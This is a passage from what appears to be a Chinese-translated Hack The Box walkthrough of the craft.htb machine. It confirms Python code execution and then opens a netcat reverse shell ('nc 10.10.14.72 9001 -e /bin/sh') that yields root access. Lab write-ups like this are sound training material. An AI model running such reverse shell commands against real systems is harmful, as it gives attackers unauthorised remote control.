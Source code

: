 我首先打开一个 python2 交互式 shell 来检查我如何误用它。我可以使用全局导入函数和它的方法。

![](img/01462f13417dcb4000c3494e9c99b06b.png)

看到它在本地工作，我现在在机器上试一试。我可以通过 ping 我的机器来验证代码的执行:

![](img/53ec774e708f325487b123affa7ac16f.png)![](img/9327cc27e481abf665c465727f42f182.png)

因为我可以从 craft.htb 获得 pings，所以我现在设置我的监听器来捕获一个反向 shell:

![](img/03064099725f184c7cae4d4299fdaf7a.png)

然后，我运行一个系统命令:

```
nc 10.10.14.72 9001 -e /bin/sh
```

![](img/720168d6b678af1cf335c1f245f63cc7.png)

看着我得到我的贝壳。注意，当我运行 id 时，我是 root。

![](img/45e25d26f1f9f78f627f99e39749cf34.png)

